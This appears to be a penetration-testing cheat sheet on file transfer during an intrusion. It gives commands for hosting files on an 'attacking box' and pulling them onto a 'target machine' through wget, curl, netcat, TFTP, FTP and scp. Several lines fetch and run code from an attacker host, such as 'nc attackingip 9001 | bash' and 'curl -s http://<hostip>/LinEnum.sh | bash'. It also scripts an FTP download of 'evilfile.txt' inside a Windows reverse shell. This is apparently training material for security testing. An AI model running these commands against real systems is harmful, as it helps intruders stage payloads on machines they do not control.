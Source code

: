 ## File Transfers
#### Find writable directories in Linux
```
find / -type d \( -perm -g+w -or -perm -o+w \) -exec ls -adl {} \;
```
#### To host files in Kali
```
python -m SimpleHTTPServer 80
```
#### To download files
```
wget http://attackingip/file.ext
# or
curl http://attackingip/file.ext > file.ext

```
#### Netcat File Transfer
```
# Setup a listener to receive file
nc -nlvp 55555 > file

# Now send the file
nc iptoreceivefile 55555 < file 
```
#### Alternate Netcat File Transfer to execute automatically in bash
```
# On attacking box
cat LinEnum.sh | nc -lvnp 9001

# On target machine
nc attackingip 9001 | bash
```
#### TFTP UDP Transfer
```
# Create directory to serve files
mkdir /tftp

# Start atftpd daemon and listen on UDP port 69 using /tftp as root
atftpd --daemon --port 69 /tftp

# Copy file to share to host directory
cp /usr/share/windows-binaries/nc.exe /tftp/

# In your reverse/bind shell on the target machine, change 10.11.1.140 to attacking ip
tftp -i 10.11.1.140 GET nc.exe
```
---
#### FTP File Transfer
On attacking machine, setup an ftp server
```
apt-get install pure-ftpd
```

Download and run the following setup file, it will create an ftp user 'bedford'
[setup-ftp](/setup-ftp)

Change user permissions, run file and set password on request
```
chmod 755
./setup-ftp
```

Copy and paste the following code into your Windows target bind/reverse shell
```
echo open 10.11.1.140 21> ftp.txt
echo user bedford>> ftp.txt
echo urpasswd>> ftp.txt
echo bin>> ftp.txt
echo GET evilfile.txt>> ftp.txt
echo bye>> ftp.txt
```
Now in your Windows bind/reverse shell run the ftp.txt file
`ftp -v -n -s:ftp.txt`

---
#### File Transfer using SSH
```
scp filename username@ipaddress
# Then enter password at prompt
```
---
#### Transferring and running a file on linux
```
curl -s http://<hostip>/LinEnum.sh | bash
```

